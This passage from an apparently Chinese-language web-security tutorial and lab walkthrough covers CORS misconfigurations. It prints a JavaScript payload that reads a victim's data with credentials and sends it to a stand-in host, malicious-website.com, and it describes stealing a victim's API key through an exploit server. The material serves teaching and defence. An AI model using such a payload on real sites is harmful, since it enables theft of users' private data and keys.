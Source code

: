 因为响应包中是包含这样的头的，说明请求源是被允许的并且允许包含cookie。而且还能看出是允许来自任意来源的。所以我们可以跨域访问资源，这样我们就可以访问一些带有敏感信息的资源了，例如构造这样的payload。

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() `{`
location='//malicious-website.com/log?key='+this.responseText;
`}`;
```

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E6%9C%89%E5%9F%BA%E7%A1%80%E6%BA%90%E6%98%A0%E5%B0%84%E7%9A%84CORS%E6%BC%8F%E6%B4%9E"></a>配套靶场：有基础源映射的CORS漏洞

首先我们观察到个人中心的响应包中有这样一段JS代码

[![](https://p1.ssl.qhimg.com/t01107aa0ad682b9ac1.png)](https://p1.ssl.qhimg.com/t01107aa0ad682b9ac1.png)

看到apikey是利用这段代码获取的，于是我们向这个路径发出请求观察一下响应包

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013ead3e0ac8efa60e.png)

发现响应包主体就是用户的一些信息，还有一个表明可以读取响应中的凭证的CORS响应头，然后我们测试一下是否可以向任何域发起跨域请求。

[![](https://p2.ssl.qhimg.com/t0162ef7091964f66aa.png)](https://p2.ssl.qhimg.com/t0162ef7091964f66aa.png)

发现响应头包含了该域，表明我们可以向任意域发起跨域请求，所以我们可以这样构造payload

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t016f84ee922676ece8.png)

在Exploit Server保存，投放给受害者后，我们就能获取到对方的apikey了

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a63fcb0ea8758208.png)

### <a class="reference-link" name="%E9%94%99%E8%AF%AF%E8%A7%A3%E6%9E%90Origin%E5%A4%B4"></a>错误解析Origin头

有的应用程序采用白名单的方式允许请求源，如果响应头包含了请求源则表明允许该源。例如这样的请求

```
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```
